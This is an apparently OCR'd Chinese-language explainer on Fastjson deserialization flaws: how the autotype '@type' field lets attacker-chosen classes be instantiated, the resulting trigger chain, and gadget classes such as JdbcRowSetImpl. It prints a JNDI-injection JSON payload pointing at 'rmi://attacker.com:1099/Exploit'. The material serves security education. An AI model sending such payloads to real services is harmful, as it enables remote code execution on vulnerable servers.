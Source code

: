 ### FastJson

Fastjson是阿里巴巴开发的高性能JSON解析库，广泛应用于Java项目中，用于实现JSON与Java对象的序列化（Java对象→JSON）和反序列化（JSON→Java对象）。由于其功能设计和历史版本的缺陷，Fastjson曾多次曝出反序列化漏洞，成为网络安全领域的焦点。

#### 漏洞原理：反序列化与autotype的风险

Fastjson的核心风险源于其**反序列化机制**和**autotype功能**的设计缺陷，具体如下：

1. **反序列化的基本逻辑**

   反序列化是将JSON字符串转换为Java对象的过程。Fastjson会根据JSON中的信息（如类名、字段），通过反射机制动态创建对象并赋值。在此过程中，会自动调用目标类的`setter`方法（用于设置字段值）和部分`getter`方法（用于获取关联对象）。

2. **autotype功能的作用与风险**

   Fastjson支持通过JSON中的`@type`字段指定反序列化的目标类（即“autotype”），例如：  

   ```java
   {"@type":"com.example.User","name":"test","age":18}
   ```

   该功能本意是方便开发者明确指定反序列化类型，但问题在于：若`@type`字段可控（即攻击者可构造恶意JSON），且Fastjson未对指定类进行限制，攻击者可指定**包含危险逻辑的类（Gadget）**，触发其`setter`/`getter`方法中的恶意行为。

3. **漏洞触发链**

   当Fastjson处理包含恶意`@type`的JSON时，流程为：  

   1. 解析`@type`字段，确定目标类；  
   2. 通过反射实例化该类；  
   3. 调用类的`setter`/`getter`方法赋值；  
   4. 若目标类的方法中存在可被利用的逻辑（如JNDI调用、命令执行等），则触发漏洞（如远程代码执行RCE）。

#### 漏洞利用：典型场景与攻击链

Fastjson漏洞的利用依赖于“Gadget类”（即包含可被滥用逻辑的类），结合autotype功能触发恶意行为。典型利用场景如下：

1. **JNDI注入（最常见）**

   利用支持JNDI（Java命名与目录接口）调用的类（如`com.sun.rowset.JdbcRowSetImpl`），通过`@type`指定该类，并在JSON中传入攻击者控制的RMI/LDAP服务器地址。示例恶意JSON：  

   ```java
   {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://attacker.com:1099/Exploit","autoCommit":true}	
   ```

   攻击链：  

   1. Fastjson反序列化时调用`JdbcRowSetImpl`的`setDataSourceName`和`setAutoCommit`方法；  
   2. `setAutoCommit`会触发`JNDI lookup`，访问攻击者的RMI/LDAP服务器；  
   3. 服务器返回恶意类（如包含`static`代码块的类），目标服务器加载后执行恶意代码（如命令执行）。

2. **其他Gadget类利用**

   不同Java环境（如JDK版本、第三方库）可能存在其他可利用的类，例如：  

   1. `org.apache.commons.collections.Transformer`（结合Apache Commons Collections库的链）；  
   2. `java.lang.ProcessBuilder`（直接构造命令执行，但受版本限制）。
